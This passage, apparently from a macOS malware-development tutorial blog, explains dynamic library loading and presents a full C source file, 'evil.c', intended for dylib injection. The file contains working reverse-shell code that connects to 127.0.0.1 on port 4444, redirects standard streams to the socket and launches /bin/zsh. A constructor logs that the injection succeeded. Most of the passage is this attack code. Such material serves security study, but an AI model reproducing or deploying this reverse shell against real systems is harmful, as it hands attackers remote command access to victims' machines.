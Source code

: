 Minimal usage like this:      

```c
void *h = dlopen("/absolute/path/to/plugin.dylib", RTLD_NOW | RTLD_LOCAL);
if (!h) { fprintf(stderr, "%s\n", dlerror()); return 1; }

void (*entry)(void) = (void(*)(void))dlsym(h, "plugin_entry");
if (!entry) { fprintf(stderr, "%s\n", dlerror()); return 1; }
```

### practical example 1

First of all, create simple "malicious" library, something like this (`evil.c`):     

```cpp
/*
 * evil.c
 * running simple rev shell on macOS
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/08/10/malware-mac-8.html
 */
#include <stdio.h>
#include <syslog.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

void hackMe() {
  const char* ip = "127.0.0.1";
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  int sockfd = socket(AF_INET, SOCK_STREAM, 0);
  connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    dup2(sockfd, i);
  }

  char *const argv[] = {"/bin/zsh", NULL};
  execve("/bin/zsh", argv, NULL);
}

__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
  syslog(LOG_ERR, "dylib injection successful %s\n", argv[0]);
}
```

This is simple example with reverse shell on `127.0.0.1`.     
